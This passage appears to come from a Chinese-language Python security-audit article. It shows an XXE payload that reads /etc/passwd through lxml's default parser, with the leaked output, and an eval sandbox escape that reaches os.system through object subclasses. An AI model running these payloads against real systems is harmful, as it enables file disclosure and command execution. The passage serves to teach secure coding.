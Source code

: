 2 xml，excel等上传
--------------

在我们的产品中经常用到xml来保存一些配置文件，同时也支持xml文件的导出导入，这样在libxml2.9以下就可能导致xxe漏洞。就拿lxml来说吧：

```
root@kali:~/python# cat test.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <node id="11" name="bb" net="192.168.0.2-192.168.0.37" ltd="" gid="" />test&xxe;</root>

>>> from lxml import etree
>>> tree1 = etree.parse('test.xml')
>>> print etree.tostring(tree1.getroot())
<root>
    <node id="11" name="bb" net="192.168.0.2-192.168.0.37" ltd="" gid=""/>testroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh

```

这是因为在lxml中默认采用的XMLParser导致的：

```
class XMLParser(_FeedParser)
|  XMLParser(self, encoding=None, attribute_defaults=False, dtd_validation=False, load_dtd=False, no_network=True, ns_clean=False, recover=False, XMLSchema schema=None, remove_blank_text=False, resolve_entities=True, remove_comments=False, remove_pis=False, strip_cdata=True, target=None, compact=True)

```

关注其中两个关键参数，其中`resolve_entities=True,no_network=True,`其中`resolve_entities=True`会导致解析实体，`no_network`会为True就导致了该利用条件比较有效，会导致一些ssrf问题，不能将数据带出。在python中`xml.dom.minidom,xml.etree.ElementTree`不受影响

0x08 不安全的封装
=====

1 eval 封装不彻底
------------

仅仅是将`__builtings__`置为空，如下方式即可绕过

```
>>> s2="""
... [x for x in ().__class__.__bases__[0].__subclasses__()
...    if x.__name__ == "zipimporter"][0](
...      "/home/liaoxinxi/eval_test/configobj-4.4.0-py2.5.egg").load_module(
...      "configobj").os.system("uname")
... """
>>> eval(s2,{'__builtins__':{}})
Linux
0

```
